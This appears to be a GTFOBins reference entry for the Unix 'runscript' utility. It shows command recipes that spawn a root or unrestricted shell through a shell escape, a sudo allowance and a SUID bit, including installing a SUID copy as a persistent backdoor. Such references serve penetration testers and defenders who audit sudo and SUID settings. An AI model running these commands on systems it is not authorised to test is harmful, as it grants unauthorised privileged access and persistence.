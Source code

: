 # GTFOBin: runscript

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp)
echo '! exec /bin/sh' >$TF
runscript $TF
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp)
echo '! exec /bin/sh' >$TF
sudo runscript $TF
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which runscript) .

TF=$(mktemp)
echo '! exec /bin/sh' >$TF
./runscript $TF
```
